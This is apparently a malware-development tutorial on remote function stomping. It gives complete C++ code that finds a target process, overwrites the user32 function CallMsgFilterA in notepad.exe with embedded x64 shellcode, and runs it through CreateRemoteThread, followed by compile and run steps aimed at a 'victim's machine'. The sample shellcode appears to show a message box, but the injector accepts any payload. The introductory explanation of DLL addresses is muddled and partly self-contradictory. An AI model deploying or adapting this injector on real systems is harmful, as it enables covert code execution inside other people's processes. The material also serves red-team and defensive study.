# Remote function stomping

All processes that use the DLLs that implement Windows API functions share them. This means that the functions inside the DLL have the same address in all processes. Because each process has its own virtual address space, the DLL's address will be different from one to the next. So, even though the target function's value stays the same from one process to the next, the DLL that exports these functions might change.     

For example, `kernel32.dll` will be shared by two processes, `A` and `B`. However, because of Address Space Layout Randomization, the address of the DLL may be different in each process. The location of `VirtualAlloc`, which comes from `kernel32.dll`, will be the same in both processes, though.      

One important thing to keep in mind is that the DLL that exports the intended function must already be loaded into the target process for function stomping to work. For instance, if you want to target the `IECreateFile` function in a remote function that comes from `ieframe.dll`, that source file must already be put into the target process. In the event that Setupapi.dll is not loaded in the remote process, the `IECreateFile` function will not be present in the target process. This will cause an attempt to write to an address that does not exist.    

### practical example

The code is similar to the local function stomping code, however, it uses different WinAPI functions to carry out code injection.    

Let's say our target process is `notepad.exe`. First of all, open `notepad.exe` in `x64dbg` debugger.    

     

    

And choose some function from `Symbols` tab:    

    

So, in our code, the first thing that needs to be done is to use `LoadLibraryA` to load `user.dll` into the local process memory. Next, use `GetProcAddress` to get the address of the function:    

```cpp
printf("loading ... ");
h = LoadLibraryA("user32.dll");
if (h == NULL){
  printf("LoadLibraryA failed: %d \n", GetLastError());
  return -1;
}
printf("loading user32.dll done \n");

addr = GetProcAddress(h, "CallMsgFilterA");
if (addr == NULL){
  printf("GetProcAddress failed: %d \n", GetLastError());
  return -1;
}

printf("address Of \"%s\": 0x%p \n", "CallMsgFilterA", addr);
```

The next step would be to stomp on the function and put the payload in its place. `VirtualProtectEx` should be used to mark the function's memory area as readable and writable so that it can be changed. Finally, `VirtualProtectEx` is used to mark the area as executable (RX or RWX). The payload is then put into the function's address.    

```cpp
if (!VirtualProtectEx(ph, addr, sizeof(my_payload), PAGE_READWRITE, &old)) {
  printf("VirtualProtectEx [RW] failed : %d \n", GetLastError());
  return -1;
}

if (!WriteProcessMemory(ph, addr, my_payload, sizeof(my_payload), NULL)) {
  printf("WriteProcessMemory failed : %d \n", GetLastError());
  return -1;
}

if (!VirtualProtectEx(ph, addr, sizeof(my_payload), PAGE_EXECUTE_READWRITE, &old)) {
  printf("VirtualProtectEx [RWX] failed : %d \n", GetLastError());
  return -1;
}
```

For finding target process and get handle just use this logic:    

```cpp
int findProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}
```

As you can see, to find `PID` we call `findProc` function which basically, what it does, it takes the name of the process we want to inject to and try to find it in a memory of the operating system, and if it exists, it’s running, this function return a process `ID` of that process.    

in the main function you need:    

```cpp
pid = findProc(argv[1]);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

if (!ph) {
  printf("failed to open process :(\n");
  return -2;
}

if (pid) {
  printf("target process pid: %d \n", pid);
}
```

For simplicity, we just print this `PID`.    

Finally, full source code is looks like this:    

```cpp
#include <windows.h>
#include <stdio.h>
#include <string.h>
#include <tlhelp32.h>

int findProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

// x64 meow-meow shellcode
unsigned char my_payload[] = 
  "\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
  "\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
  "\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
  "\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
  "\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
  "\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
  "\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
  "\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
  "\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
  "\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
  "\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
  "\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
  "\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
  "\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
  "\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
  "\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
  "\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
  "\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
  "\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
  "\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
  "\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
  "\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
  "\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
  "\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
  "\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
  "\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
  "\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
  "\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
  "\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";

int main(int argc, char* argv[]) {
  int pid = 0;
  PVOID addr = NULL;
  HMODULE h = NULL;
  HANDLE ph = NULL;
  HANDLE th = NULL;
  DWORD old = NULL;

  pid = findProc(argv[1]);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  if (!ph) {
    printf("failed to open process :(\n");
    return -2;
  }

  if (pid) {
    printf("target process pid: %d \n", pid);
  }

  printf("press <Enter> to load user32.dll...");
  getchar();

  printf("loading ... ");
  h = LoadLibraryA("user32.dll");
  if (h == NULL){
    printf("LoadLibraryA failed: %d \n", GetLastError());
    return -1;
  }
  printf("loading user32.dll done \n");

  addr = GetProcAddress(h, "CallMsgFilterA");
  if (addr == NULL){
    printf("GetProcAddress failed: %d \n", GetLastError());
    return -1;
  }

  printf("address Of \"%s\": 0x%p \n", "CallMsgFilterA", addr);

  printf("press <Enter> to write payload ... ");
  getchar();
  printf("writing payload... ");

  if (!VirtualProtectEx(ph, addr, sizeof(my_payload), PAGE_READWRITE, &old)) {
    printf("VirtualProtectEx [RW] failed : %d \n", GetLastError());
    return -1;
  }

  if (!WriteProcessMemory(ph, addr, my_payload, sizeof(my_payload), NULL)) {
    printf("WriteProcessMemory failed : %d \n", GetLastError());
    return -1;
  }

  if (!VirtualProtectEx(ph, addr, sizeof(my_payload), PAGE_EXECUTE_READWRITE, &old)) {
    printf("VirtualProtectEx [RWX] failed : %d \n", GetLastError());
    return -1;
  }
  
  printf("writing payload: done \n");

  printf("press <Enter> to run the payload ... ");
  getchar();

  th = CreateRemoteThread(ph, NULL, NULL, addr, NULL, NULL, NULL);
  if (th != NULL)
    WaitForSingleObject(th, INFINITE);

  printf("press <Enter> to quit ... ");
  getchar();

  return 0;
}
```

### demo

Let's go to see everything in action.     

Compile our malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

   

Then run `notepad.exe` on victim's machine and run:    

```powershell
.\hack.exe notepad.exe
```

then check target address:    

    

Write payload:    

   

run payload:    

    

    

As you can see, everything is worked perfectly, as expected.    

Once again, if you try to use function which is not provided by target process you're failed!     

Like this:    

    

    

    